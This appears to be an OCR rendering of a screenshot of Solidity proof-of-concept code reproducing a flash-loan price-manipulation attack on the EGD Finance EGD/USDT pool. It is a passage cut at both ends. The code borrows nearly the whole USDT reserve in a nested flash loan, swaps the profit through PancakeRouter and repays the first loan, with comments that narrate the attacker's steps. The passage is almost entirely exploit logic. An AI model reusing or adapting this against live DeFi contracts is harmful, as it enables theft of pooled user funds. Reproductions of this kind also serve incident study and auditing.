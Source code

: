 │             console.log("Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve");                                                                                                                                                       │
│             borrow2 = IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) * 9_999_999_925 / 10_000_000_000; // Attacker borrow 99.99999925% USDT of EGD_USDT_LPPool reserve                                                                             │
│             EGD_USDT_LPPool.swap(0, borrow2, address(this), "00");                                                                                                                                                                                   │
│             console.log("Flashloan[2] payback success");                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│             // Swap all egd -> usdt                                                                                                                                                                                                                  │
│             console.log("Swap the profit...");                                                                                                                                                                                                       │
│             address[] memory path = new address[](2);                                                                                                                                                                                                │
│             path[0] = egd;                                                                                                                                                                                                                           │
│             path[1] = usdt;                                                                                                                                                                                                                          │
│             IERC20(egd).approve(address(pancakeRouter), type(uint256).max);                                                                                                                                                                          │
│             pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                     │
│                 IERC20(egd).balanceOf(address(this)), 1, path, address(this), block.timestamp                                                                                                                                                        │
│             );                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│             bool suc = IERC20(usdt).transfer(address(USDT_WBNB_LPPool), 2010 * 10e18); // Attacker payback 2,010 USDT (w/ 0.5% fee)                                                                                                                  │
│             require(suc, "Flashloan[1] payback failed");                                                                                                                                                                                             │
│         } else {                                                                                                                                                                                                                                     │
│             console.log("Flashloan[2] received");                                                                                                                                                                                                    │
│             emit log_named_decimal_uint("[INFO] EGD/USDT Price after price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);                                                                                                              │
│             // -----------------------------------------------------------------                                                                                                                                                                     │